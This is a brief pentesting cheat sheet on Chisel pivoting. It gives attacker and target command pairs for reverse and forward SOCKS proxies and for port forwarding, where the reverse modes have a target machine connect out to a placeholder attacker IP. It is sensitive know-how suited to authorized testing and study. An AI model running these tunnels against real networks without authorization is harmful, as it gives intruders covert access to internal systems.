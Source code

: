 ### Chisel client/server --help

### Author: https://github.com/jpillora/chisel/releases

### Reverse SOCKS proxy

 - Attacker: ./chisel server -p LISTENING_PORT --reverse &

 - Target: ./chisel client ATTACK_IP:LISTEN_PORT R:SOCKS &

### Forward SOCKS proxy

 - Target: ./chisel server -p LISTEN_PORT --socks5

 - Attacker: ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

## TIP:

#### Set the port in the proxychains file. (SOCKS5)

#### If you use forward proxy, set the port to whichever one you opened.

### Local Port Forward

 - Target: ./chisel server -p LISTEN_PORT

 - Attacker: ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

### Remote Port Forward

 - Attacker: ./chisel server -p LISTEN_PORT --reverse &

 - Target: ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

## TIP:

#### Also use jobs then kill %num for chisel background processes too.

#### And use proxychains on your attacking machine
